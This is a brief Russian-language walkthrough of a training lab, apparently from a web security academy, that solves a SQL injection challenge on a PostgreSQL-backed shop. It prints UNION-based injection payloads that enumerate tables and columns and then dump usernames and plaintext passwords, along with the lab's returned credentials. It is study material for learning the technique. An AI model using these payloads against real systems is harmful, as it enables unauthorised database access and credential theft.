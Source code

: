 
# Разведка

При разведке было выявлено что при выборе категории есть уязвимость к SQL инъекции
![[Pasted image 20250119111154.png]]

При большем углубление было выявлена версия бд и название самой бд
```
PostgreSQL 12.20 (Ubuntu 12.20-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0, 64-bit
```

# Эксплуатация 

Выводим все имена таблиц существующих в данной бд
```
' UNION SELECT table_name, NULL FROM information_schema.tables--
```

В списке есть множество таблиц, особый интерес: administrable_role_authorizations и users_hriaiz

#### users_hriaiz

Выведем колонки данной таблицы
```
' UNION SELECT column_name, 'NULL' FROM information_schema.columns WHERE table_name = 'users_hriaiz'--
```

В ответе содержится: password_ewhkkh username_ildiqh и email.
- Для входа надо Username и Password так что достанем ток 2 столбца
```
' UNION SELECT username_ildiqh, password_ewhkkh FROM users_hriaiz--
```

В ответе содержится:
```
carlos|r4zp4k8esad9xeqv3vge
wiener|iaho9cz92fvsrw0qnq7a
administrator|gbvvpf2cl8sc88o54v3p
```

Пробуем авторизоваться от administrator. Лаба решена)